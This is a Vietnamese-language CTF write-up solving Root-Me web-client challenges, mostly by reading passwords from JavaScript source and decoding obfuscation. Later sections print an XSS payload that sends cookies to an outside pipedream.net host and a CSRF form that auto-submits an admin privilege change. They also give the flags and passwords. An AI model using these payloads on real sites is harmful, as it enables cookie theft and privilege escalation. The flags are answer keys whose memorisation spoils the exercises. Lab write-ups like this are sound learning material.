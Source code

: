 ## 1. HTML - buttons disabled
- Đề cho 2 cái input bị disabled thì vô source xóa nó đi là có thể điền vô được
![Screenshot 2022-05-11 121226](https://i.imgur.com/3Xg7VUD.png)

```py
Password: HTMLCantStopYou
```
## 2. Javascript - Authentication
- Đề cho trang login và có hướng dẫn xem file js thì vô source code tìm được đoạn này
```js
function Login(){
	var pseudo=document.login.pseudo.value;
	var username=pseudo.toLowerCase();
	var password=document.login.password.value;
	password=password.toLowerCase();
	if (pseudo=="4dm1n" && password=="sh.org") {
	    alert("Password accepté, vous pouvez valider le challenge avec ce mot de passe.\nYou an validate the challenge using this password.");
	} else { 
	    alert("Mauvais mot de passe / wrong password"); 
	}
}
```
```js
Password: sh.org
```

## 3. Javascript - Source
- Đọc đề thì vô source xem thì có đoạn js này
```js
<script type="text/javascript">
/* <![CDATA[ */
	    function login(){
		pass=prompt("Entrez le mot de passe / Enter password");
		if ( pass == "123456azerty" ) {
		    alert("Mot de passe accepté, vous pouvez valider le challenge avec ce mot de passe.\nYou can validate the challenge using this password.");  }
		else {
		    alert("Mauvais mot de passe / wrong password !");
		}
	    }
	/* ]]> */
	</script>
```
```js
Password: 123456azerty
```
## 4. Javascript - Authentication2
- Đọc đề rồi vô source có đoạn js này

```js
function connexion(){
    var username = prompt("Username :", "");
    var password = prompt("Password :", "");
    var TheLists = ["GOD:HIDDEN"];
    for (i = 0; i < TheLists.length; i++)
    {
        if (TheLists[i].indexOf(username) == 0)
        {
            var TheSplit = TheLists[i].split(":");
            var TheUsername = TheSplit[0];
            var ThePassword = TheSplit[1];
            if (username == TheUsername && password == ThePassword)
            {
                alert("Vous pouvez utiliser ce mot de passe pour valider ce challenge (en majuscules) / You can use this password to validate this challenge (uppercase)");
            }
        }
        else
        {
            alert("Nope, you're a naughty hacker.")
        }
    }
}
```
- Thuật toán là chia cái "GOD:HIDDEN" bỏ ":" thì sẽ thành username và password
```js
Password: HIDDEN
```
## 5. Javascript - Obfuscation 1
- Đọc đề vô source thì có đoạn js này
```js
<script type="text/javascript">
              /* <![CDATA[ */

              pass = '%63%70%61%73%62%69%65%6e%64%75%72%70%61%73%73%77%6f%72%64';
              h = window.prompt('Entrez le mot de passe / Enter password');
              if(h == unescape(pass)) {
                  alert('Password accepté, vous pouvez valider le challenge avec ce mot de passe.\nYou an validate the challenge using this pass.');
              } else {
                  alert('Mauvais mot de passe / wrong password');
              }

              /* ]]> */
          </script>
```

- Hàm unescape() dùng để decode url nhưng không còn được dùng nữa bật console xem
```js
var a= unescape("%63%70%61%73%62%69%65%6e%64%75%72%70%61%73%73%77%6f%72%64")
=> undefined
console.log(a)
=> cpasbiendurpassword
```
```js
Password: cpasbiendurpassword
```
## 6. Javascript - Obfuscation 2
- Đọc đề vô source code thì đọc được đoạn js này
```js
<script type="text/javascript">
	var pass = unescape("unescape%28%22String.fromCharCode%2528104%252C68%252C117%252C102%252C106%252C100%252C107%252C105%252C49%252C53%252C54%2529%22%29");
</script>
```
- Decode dần dần thôi
![Screenshot 2022-05-11 123043](https://i.imgur.com/TF2mroT.png)

```js
Password: hDufjdki156
```
## 7. Javascript - Native code
- Họ đưa đoạn native code thì decode được function này
```js
function anonymous( ) { a=prompt('Entrez le mot de passe');if(a=='toto123lol'){alert('bravo');}else{alert('fail...');} }
```
```js
Password: toto123lol
```
## 8. Javascript - Webpack
- Bài này đề hướng dẫn dò password trong webpack thì dò từng file.
```js
Password: BecauseSourceMapsAreGreatForDebuggingButNotForProduction
```
## 9. Javascript - Obfuscation 3
- Đọc source code thì tìm được đoạn js này
```js
<script type="text/javascript">
    function dechiffre(pass_enc){
        var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65";
        var tab  = pass_enc.split(',');
                var tab2 = pass.split(',');var i,j,k,l=0,m,n,o,p = "";i = 0;j = tab.length;
                        k = j + (l) + (n=0);
                        n = tab2.length;
                        for(i = (o=0); i < (k = j = n); i++ ){o = tab[i-l];p += String.fromCharCode((o = tab2[i]));
                                if(i == 5)break;}
                        for(i = (o=0); i < (k = j = n); i++ ){
                        o = tab[i-l]; 
                                if(i > 5 && i < k-1)
                                        p += String.fromCharCode((o = tab2[i]));
                        }
        p += String.fromCharCode(tab2[17]);
        pass = p;return pass;
    }
    String["fromCharCode"](dechiffre("\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"));
    
    h = window.prompt('Entrez le mot de passe / Enter password');
    alert( dechiffre(h) );
    
</script>
```

- Bài này lúc nào nó cũng alert ra chuỗi "FAUX PASSWORD HAHA" nên không cần để ý tới hàm kia
- Decode chuỗi đề bài cho và dùng String.fromCharCode là ra
![Screenshot 2022-05-11 130703](https://i.imgur.com/Lv8QFVQ.png)
```js
Password: 786OsErtk12
```

## 11. XSS - Stored 1
- Đầu tiên chương trình cho 2 input và nhìn đề bài bị XSS nên dùng luôn payload và bị dính.
```js
<script>alert(1);</script> 
```
- Chạy ngrok và localhost để đọc cookie.
![Screenshot 2022-05-12 213653](https://i.imgur.com/dRh5TYs.png)
![Screenshot 2022-05-12 213710](https://i.imgur.com/52YHQsj.png)
```js
Password: NkI9qe4cdLIO2P7MIsWS8ofD6
```
## 13. 	CSRF - 0 protection
- Đầu tiên đăng kí tài khoản admin/admin thì vô phần private thì vì mình là user nên không có quyền đọc.
- Có một form update profile để tăng quyền lên admin nhưng mình không có quyền thay đổi status.
- Chèn form submit vào phần comment để gửi cho admin đọc lừa admin ấn vô submit là lên quyền.
```js
<form id="form" action="http://challeng01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">                    
    <input type="text" name="username" value="admin">
    <input type="checkbox" value="on" name="status" checked>
</form>
<script>
    document.getElementById("form").submit()
</script>
```
```js
Good job dude, flag is : Csrf_Fr33style-L3v3l1!
```
## 15. 	XSS DOM Based - Introduction
- Đầu tiên thấy cho 1 input đầu với number được code như sau.
```js
<script>
    var random = Math.random() * (99);
    var number = '100'; // input đầu vào
    if(random == number) {
        document.getElementById('state').style.color = 'green';
        document.getElementById('state').innerHTML = 'You won this game but you don\'t have the flag ;)';
    }
    else{
        document.getElementById('state').style.color = 'red';
        document.getElementById('state').innerText = 'Sorry, wrong answer ! The right answer was ' + random;
    }
    </script>
```
- XSS thử xem với 
```js
number = '; alert(1)//
- Thì bị dính XSS
```
- Vậy dùng requestbin tạo request bắt cookie là được.
```js
payload: 
http://challenge01.root-me.org/web-client/ch32/index.php?number=';document.location.href='https://eo4sv9ka4dlw5ll.m.pipedream.net/?flag='.concat(document.cookie);//
```
```js
flag: 
flag=rootme{XSS_D0M_BaSed_InTr0}

```


